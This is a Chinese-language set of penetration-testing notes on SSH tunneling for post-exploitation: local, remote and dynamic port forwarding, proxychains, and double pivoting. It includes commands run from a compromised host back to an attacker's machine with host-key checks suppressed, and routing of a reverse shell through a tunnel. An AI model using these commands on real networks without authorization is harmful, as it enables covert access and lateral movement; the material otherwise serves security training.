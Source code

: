```yaml
---
tags:
  - 渗透/后渗透
---
```

## SSH原理概述

> https://www.ramkitech.com/2012/04/how-to-do-ssh-tunneling-port-forwarding.html  
> 在terminal中，当我们敲入ssh someone@private-server.org时，terminal application将调用ssh client，ssh client则连接到private-server.org机器的22端口(由ssh server监听).然后client和server交换Identitiy,public key, cipher suite info并且在server端创建一个新的shell process.随后client和server之间就建立了安全的通道了,这样之后的所有command及response都通过这个secure channel来传递。
> 比如当ssh连接建立后，我执行ls命令。那么ls命令将由ssh client加密封装通过该通道发往server。server则解密取出命令'ls'并且在shell(该shell就是ssh链接创建时所创建的)中执行,所有的输出将被redirect到该隧道的另一端-ssh client上,最后ssh client则解密取出output消息打印在terminal application上。

- ssh 可以同时有许多channels（Shell、Data、X11 Forwarding等），每个channel代表一个服务。
- 通常情况下我们就是使用的 shell channel（可以用 `-N` 忽略创建），但ssh隧道模式下我们用的 data channel。

## 3种类型

### 命令总结

`ssh -L/R [bind_address:]sourcePort:forwardToHost:onPort remoteHost`

- L/R指示 `sourcePort` 是在localhost端（执行命令的host）还是remoteHost
	- 注意：`sourcePort` 是指L/R（本地/远端）要开启监听的端口。例如-R的话是指在远端开启，本地是不会开启端口监听的。
- `forwardToHost:onPort` 不必局限在2台机器之间（参考）
- 注意可以定义多个 -L/R


#### OPSEC

![[Pasted image 20240817183916.png]]

```bash
ssh -f -N -R 1122:10.5.5.11:22 -R 13306:10.5.5.11:3306 -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" -i /tmp/keys/id_rsa kali@10.11.0.4
```

- 在Ajla上用www-data用户执行远程端口转发
- 防止在目标机器上保存我们kali的主机公钥
- 为www-data用户生成ssh密钥，并加一些限制（srcIP、仅端口转发、不分配伪终端），将公钥加入kali的 `authorized_keys` 文件：`from="10.11.1.250",command="echo 'This account can only be used for port forwarding'",no-agent-forwarding,no-X11-forwarding,no-pty ssh-rsa ssh-rsa AAAAB3Nz<SNIP>nin www-data@ajla`


#### 有用选项

-**fNT**Cg

- -f：后台进程，不占用当前shell，只有认证时会到前台。（似乎即使Meterpreter进程死了，ssh隧道依旧生效）
- -N：静默连接（只当作隧道。即不创建shell channel，不登录到远程shell、不发出ssh命令）
- -T：远程主机上不分配伪终端。**通常和N连用**，不过分配了也没事，只是有点没必要。（扩展：本机连接远程远程主机的交互实际上是在与远程主机的伪终端交互）
- -C：压缩。减少带宽，但是可能增加CPU负荷（因为要加解压缩）
- -g：GatewayPorts 关键字，我们可以通过指定它使得其他机器也能使用这个本地端口转发。允许远端host连接本地用于转发的端口。本地端口转发绑定的是 lookback 接口（即上面 `bind_address` 的部分，不开启GatewayPorts配置的话，这里默认localhost），这意味着只有 localhost 或者 127.0.0.1 才能使用本机的端口转发 , 其他机器发起的连接只会得到“ connection refused. ”。【如果不加这个参数，只允许本地主机使用这个端口转发。更安全】


### 1.动态端口转发

- 动态：不必为每个目标创建本地监听端口，一个动态端口应付所有目标——比本地端口转发简约。
	- 服务器检查数据包并决定我们需要将数据包发送到哪里

```shell-session
ssh -D 9050 ubuntu@10.129.15.50
```
![[Pasted image 20240817182226.png]]

就是在SSH Client前设置个（SOCKS）代理server，并绑定local port 9050。随后用登陆ubuntu并建立ssh connection。

之后在浏览器配置SOCKSv5代理就可以用浏览器访问ubuntu甚至是内网（因为命令在ubuntu解析，ubuntu有内网路由）的资源了。

#### proxychains

> [!note] 现在用proxychains-ng

配置代理IP：`sudo vim /etc/proxychains4.conf`
使用proxychains：`proxychains4 remmina`


也可以在 `~/.ssh/ssh_config` 里添加配置方便操作：
```
Host dest   
	Hostname 192.168.56.10   
	Port 22   
	User ubuntu   
	IdentityFile ~/.ssh/id_rsa
	DynamicForward localhost:5963
```

运行 `ssh dest` 之后，ssh会在本地绑定一个支持SOCKS协议的端口（此处为5963）。


### 2.本地端口转发

```shell-session
ssh -L 1234:localhost:3306 ubuntu@10.129.202.64
```
![[Pasted image 20240817183232.png]]

相当于本地ssh client充当代理。Attack的ssh client的监听绑定了1234端口，所以所有到1234的流量都会转发到ssh client，然后流向远端。


进行连接的命令其实会根据remote port的服务进行选择。如可以这样：

- 转发ftp端口：`ftp localhost:localport`
- 转发rdp端口：`rdesktop localhost:localport`


### 3.远程端口转发

```shell-session
ssh -R <PivotHost>:8080:0.0.0.0:8000 ubuntu@<Target> -vN
```
![[Pasted image 20240817183638.png]]

上图的例子中，Victim执行的msfvenom payload是回连 `Ubuntu的8080`，handler监听 `0.0.0.0:8000`。  
反弹shell回连Ubuntu后通过SSH隧道转发到本地8000端口，得以成功远控。


#### SSH Reverse Dynamic Forward

![[Pasted image 20240817185238.png]]


## For Windows

### 建立ssh服务端

- WinSSHD： [https://www.bitvise.com/ssh-server](https://www.bitvise.com/ssh-server)
- OpenSSH： [https://sshwindows.sourceforge.net/](https://sshwindows.sourceforge.net/)

关于Proxifier： [https://posts.specterops.io/offensive-security-guide-to-ssh-tunnels-and-proxies-b525cbd4d4c6](https://posts.specterops.io/offensive-security-guide-to-ssh-tunnels-and-proxies-b525cbd4d4c6)


> [!note] 或者在cmd使用[[SSH Tunneling#SSH Reverse Dynamic Forward|远程动态转发]]！




## 高级运用

### Double Pivoting

> https://theyhack.me/Proxychains-Double-Pivoting/

![[Pasted image 20240818001741.png]]

目标：从attack访问destbox。  
可以想象box1为WebSrv，box2为FileSrv，destbox为DC/特权PC。  
假设box1连接box2、box2连接destbox可以简单实现（因为都属于内网）。  
于是attack无法正向连接box1是通常的情况，所以需要box1反连attack。
#### reverse tunneling

```bash
# 1. attack:2222 ==== jumpbox1:22
they@jumpbox1.local:~$ ssh -fN -R 2222:127.0.0.1:22 <you>@attack.local
# 2. attack上的动态端口8888，连接到jumpbox1
they@attack.local:~$ ssh -fN -D 8888 <jumpbox1-user>@127.0.0.1 -p 2222
## 1&2 in oneline
they@jumpbox1.local:~$ ssh -f -R 2222:127.0.0.1:22 attack.local "ssh -fN -D 8888 127.0.0.1 -p 2222"

# 连接到box1之后重复执行动态隧道的步骤——即前文假设可简单实现的内容
they@jumpbox1.local:~$ ssh -fN -D 9999 user@jumpbox2.local

# 攻击机的proxychains.conf配置
<SNIP>
[ProxyList]
socks4  127.0.0.1 8888
socks4  127.0.0.1 9999 # For box1 to box2

# 访问destbox
they@attack.local:~$ proxychains4 -f proxychains.conf curl http://destbox.local
```

- 建议配置 `jumpbox1-user` 的有限制免密连接：[restrict accordingly to just tunnels](https://unix.stackexchange.com/questions/14312/how-to-restrict-an-ssh-user-to-only-allow-ssh-tunneling/14313#14313)


#### 内网隧道的另一实现思路

> https://posts.specterops.io/offensive-security-guide-to-ssh-tunnels-and-proxies-b525cbd4d4c6

按该文思路，针对前一节的“假设box1连接box2、box2连接destbox可以简单实现”的命令：
```bash
# 1. box2上建立动态隧道，但是SSH服务端在box2的loopback
they@jumpbox2.local:~$ ssh -D 10000 <jumpbox1-user>@127.0.0.1
# 2. box1:9999 ==== box2:10000
they@jumpbox2.local:~$ ssh -R 9999:127.0.0.1:10000 <jumpbox1-user>@jumpbox1.local

# 在攻击机上
# 正向连接box1：配置127.0.0.1:8888，然后用proxychains即可。
# 从box1反向隧道：参照前一节。
```
